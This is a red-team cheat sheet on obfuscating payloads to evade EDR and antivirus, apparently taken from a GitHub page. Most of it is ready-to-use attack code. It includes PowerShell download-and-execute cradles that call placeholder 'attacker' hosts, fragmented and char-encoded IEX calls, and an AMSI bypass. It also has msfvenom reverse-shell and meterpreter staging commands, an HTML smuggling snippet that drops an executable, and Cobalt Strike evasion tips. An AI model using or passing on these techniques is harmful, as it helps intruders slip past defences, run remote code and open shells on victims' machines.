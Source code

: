 # Payload Obfuscation Cheat Sheet (Red Team Ops)

Payload obfuscation helps avoid detection by EDR/AV by encoding, transforming, or hiding the true purpose of a script or binary. This is not encryption — the goal is **evasion**, not confidentiality.

---

## 🧪 PowerShell Obfuscation

### Base64 Encoding (standard)

```bash
# Encode payload
echo "IEX(New-Object Net.WebClient).DownloadString('http://attacker/a.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

Run:
```bash
powershell -enc <base64>
```

---

### String Fragmentation

```powershell
$w="Invoke";$x="-WebRequest";$y="http://attacker/s.ps1";iex ($w+$x+" "+$y)
```

---

### ASCII Char Obfuscation

```powershell
$cmd = [char]73+[char]69+[char]88+[char]40+[char]39+"http://..."[char]39+[char]41
Invoke-Expression $cmd
```

---

### AMSI Bypass (Preload Patch)

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'BlE:1'+'nV'+'0kE'+'-Ex'+'Pr'+'eSsiON' ) ([scRiPtBLocK]::cReaTe('''
$e=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');$f=$e.GetField('amsiInitFailed','NonPublic,Static');$f.SetValue($null,$true)
'''))
```

---

## 🧠 Shellcode Obfuscation

### XOR or Custom Encoding

Use `msfvenom` or your own encoder to XOR shellcode, decode at runtime in memory.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=x LPORT=y -f c | ./xor_encoder.py
```

Decode with in-memory C# or PowerShell wrapper.

---

### Invoke-Shellcode (with staging)

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://attacker/inject.ps1')
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost x.x.x.x -Lport 443 -Force
```

---

## 🔒 Binary Obfuscation

### PE Metadata Scrubbing

Use tools like:

- **PEscrub**
- **PeClone**
- Custom post-processing scripts to randomize:
  - Product Name
  - Company
  - Version
  - Timestamp

---

### Cobalt Strike Artifact Kit

Customize CS binaries via:

```
/cobaltstrike/artifacts/
```

Edit:
- `common.rc`
- `resources.c`
- `syscalls.c`

---

### Sleep & Jitter Settings

```
sleep 45000 30
```

- Use large sleep + jitter to reduce detection
- Pair with `smartinject` or `execute-assembly` only

---

## 📦 Stager Obfuscation

### DNS Staging (Cobalt Strike / Metasploit)

More resilient, often EDR-safe:

- C2: DNS → redirect → HTTPS
- Stager payloads split across TXT records

---

### HTML Smuggling (Client-Side Delivery)

- Deliver payload via JS + blob URLs
- Bypass most inline proxies and AV

```html
<script>
let blob = new Blob(['MZ...'], {type: 'application/octet-stream'});
let a = document.createElement('a');
a.href = window.URL.createObjectURL(blob);
a.download = 'payload.exe';
a.click();
</script>
```

---

## 📌 Tools for Obfuscation

- **Invoke-Obfuscation** (PowerShell payload mangling)
- **Veil** (Generates AV-evasive executables)
- **Shellter** (PE injection framework)
- **Donut** (.NET payload packing)
- **Obfuscator-LLVM** (compile-time C/C++ obfuscation)
- **Nimcrypt** (Nim-based AV evasion wrapper)

---

## 💡 Tips & Best Practices

- Always test payloads in **realistic EDR environments**
- Use **memory injection** over writing to disk
- Chain **multiple methods**: (Encode → AMSI Bypass → Custom Loader)
- Rotate **User-Agent**, **pipe names**, and **process injection targets**
- Log and track **YARA/AV hits** during dev

---


